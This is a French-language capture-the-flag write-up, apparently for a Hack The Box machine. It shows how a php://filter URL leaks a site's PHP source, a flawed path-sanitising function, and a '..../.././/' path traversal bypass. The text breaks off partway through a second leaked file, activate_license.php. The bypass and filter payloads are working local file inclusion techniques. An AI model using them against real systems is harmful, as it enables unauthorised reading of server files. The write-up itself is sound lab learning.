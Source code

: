 après quelques tests je trouve le code source de mon index.php en utilisant un filtre php.

http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=index.php

```php
<?php
function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
} else {
    header('Location: /index.php?page=default.html');
}

readfile($page);
?>
```

On peut donc voir ici 2 filtre à bypass afin de mener à bien notre lfi.

Pour passer la fonction sanitize_input je vous propose cette solution : "..../.././/" qui à la sortie de la fonction sanitize_input deviendra "../"

et ensuite le preg_match() veut que notre fichier commence par des une lettre entre a-z (enfin je crois j'connais pas trop les regex) donc grace à notre énumération ou au code source de la page on voit un dossier js alors on va juste faire page=js/..../.././/

Parfait on a veski le filtre comme il faut !

maintenant il s'agit de l'exploiter ...

## WEB EXPLOITATION

Là ça a été assez compliqué, j'ai passé plusieurs heures à essayer de reverse shell par les logs, env, prod/pid/fd enfin bref j'ai essayé toutes les techniques possible et imaginable afin de reverse shell comme un débile. Et au bout d'un moment, un éclair de génie ! Je me suis dit je vais check à nouveau le code source de mon index.php ... Et je vois qu'il utilise la fonction readfile !
Après une recherche google :  https://stackoverflow.com/questions/36494361/do-file-get-contents-and-readfile-execute-php-code

**readfile do not execute code.** 

J'avais envie de casser mon écran, dieu merci je suis une personne calme.
J'ai décidé de faire une pause et d'aller à la salle de sport ce qui m'a permis de réfléchir ... ET LA ECLAIR DE GENIE !
Je me souviens avoir vu dans les logs un fichier php activate_license.php (peut être qu'il fallait le trouver en énumérant les fichiers au début mais mes worldlists l'ont pas eu.)
Je décide donc de récuperer son code source avec mon filtre php utilisé plus haut pour récuperer index.php

```php
<?php
if(isset($_FILES['licensefile'])) {
    $license      = file_get_contents($_FILES['licensefile']['tmp_name']);
    $license_size = $_FILES['licensefile']['size'];

    $socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
    if (!$socket) { echo "error socket_create()\n"; }

    if (!socket_connect($socket, '127.0.0.1', 1337)) {
        echo "error socket_connect()" . socket_strerror(socket_last_error()) . "\n";
    }

```